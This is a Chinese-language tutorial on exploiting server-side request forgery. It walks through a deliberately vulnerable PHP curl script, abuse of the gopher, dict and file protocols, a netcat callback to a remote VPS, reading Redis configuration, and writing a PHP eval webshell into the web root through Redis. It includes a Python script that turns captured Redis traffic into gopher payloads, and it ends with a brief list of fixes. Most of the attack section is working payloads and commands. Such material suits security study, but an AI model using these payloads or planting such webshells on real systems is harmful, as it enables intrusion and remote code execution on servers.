



0x01 SSRF 概述
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）
SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。利用的是服务端的请求伪造。ssrf是利用存在缺陷的web应用作为代理攻击远程和本地的服务器
0x02 环境搭建
环境内容
| 应用 |
版本 |
端口号 |
| PhpStudy |
php5.4.45+Apache |
80 |
| Redis |
3.0.501 |
6379 |
漏洞代码 ssrf.php
此代码用来模拟SSRF，使用curl发起网络请求后返回客户端，请求加载文件
1 2 3 4 5 6 7 8 9
| <?php $ch = curl_init(); curl_setopt($ch, CURLOPT_URL, $_GET['url']); #curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1); curl_setopt($ch, CURLOPT_HEADER, 0); #curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS); curl_exec($ch); curl_close($ch); ?>
|
上面的漏洞代码ssrf.php没有屏蔽回显，所以利用姿势比较多
0x03 漏洞利用
gopher
gopher：gopher协议支持发出GET、POST请求：可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议（俗称万能协议）。
公网IP的VPS监听 2333 端口
1 2 3 4
| [root@host ~]# nc -lvp 2333 Ncat: Version 6.40 ( http://nmap.org/ncat ) Ncat: Listening on :::2333 Ncat: Listening on 0.0.0.0:2333
|
利用 gopher 协议访问
浏览器直接访问或者用 curl url
http://127.0.0.1/ssrf.php?url=gopher://66.112.213.76:2333/_hello
收到回显
1 2 3 4 5 6 7
| [root@host ~]# nc -lvp 2333 Ncat: Version 6.40 ( http://nmap.org/ncat ) Ncat: Listening on :::2333 Ncat: Listening on 0.0.0.0:2333 Ncat: Connection from 183.xxx.xxx.xxx. Ncat: Connection from 183.xxx.xxx.xxx:9661. hello
|
dict
因为此处 ssrf.php 的漏洞代码有回显，所以浏览器直接访问
http://127.0.0.1/ssrf.php?url=dict://127.0.0.1:6379/info
或者终端
curl http://127.0.0.1/ssrf.php?url=dict://127.0.0.1:6379/info
可以获取Redis的配置信息

同理也可以添加或者查看Redis的信息
查看Redis存储的内容

file
利用 file 协议可以读取任意内容
前提也是在有回显的情况下
http://127.0.0.1/ssrf.php?url=file:///c:\Users\h\Desktop\hello.txt

http/s
探测内网主机存活
0x04 攻击Redis
写入webshell
生成gopher协议的payload
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379
redis-cli -p 4444
输入对应的payload
1 2 3 4
| set shell "<?php @eval($_POST['shell']);?>" config set dir /var/www/html/ # 此时在linux服务器上测试 config set dbfilename shell.php save
|
可以在socat界面看到数据包
大概长这样
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
| > 2018/05/26 15:56:25.163014 length=63 from=17 to=79 *3\r $3\r set\r $5\r shell\r $32\r x<?php @eval($_POST['shell']);?>\r < 2018/05/26 15:56:25.163312 length=5 from=10163 to=10167 +OK\r > 2018/05/26 15:56:33.773190 length=55 from=80 to=134 *4\r $6\r config\r $3\r set\r $3\r dir\r $14\r /var/www/html/\r
|
- 利用脚本转换为
gopher协议可以利用的payload
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25
| import sys exp = '' with open(sys.argv[1]) as f: for line in f.readlines(): if line[0] in '><+': continue # 判断倒数第2、3字符串是否为\r elif line[-3:-1] == r'\r': # 如果该行只有\r，将\r替换成%0a%0d%0a if len(line) == 3: exp = exp + '%0a%0d%0a' else: line = line.replace(r'\r', '%0d%0a') # 去掉最后的换行符 line = line.replace('\n', '') exp = exp + line # 判断是否是空行，空行替换为%0a elif line == '\x0a': exp = exp + '%0a' else: line = line.replace('\n', '') exp = exp + line print exp
|
测试脚本是否可用
curl -v 'gopher://127.0.0.1:6379/_生成的exp
PS
我在复现的时候，不知道哪儿出了问题，一直报错 curl: (3) [globbing] illegal character in range specification at pos 87
0x05 可能存在漏洞的地方
1 2 3 4 5 6 7 8 9 10 11 12 13
| share wap url link src source target u 3g display sourceURl imageURL domain
|
0x06 修复方案
- 限制协议为HTTP、HTTPS
- 禁止30x跳转
- 设置URL白名单或者限制内网IP
0x07 参考文章
SSRF in PHP
https://joychou.org/web/phpssrf.html
SSRF漏洞分析与利用
http://www.91ri.org/17111.html
利用 gopher 协议拓展攻击面
https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2
SSRF 详解
https://blog.csdn.net/qq_30135181/article/details/52734225
SSRF漏洞(原理&绕过姿势)
https://www.t00ls.net/articles-41070.html
SSRF
https://www.jianshu.com/p/ad7b8079e0d5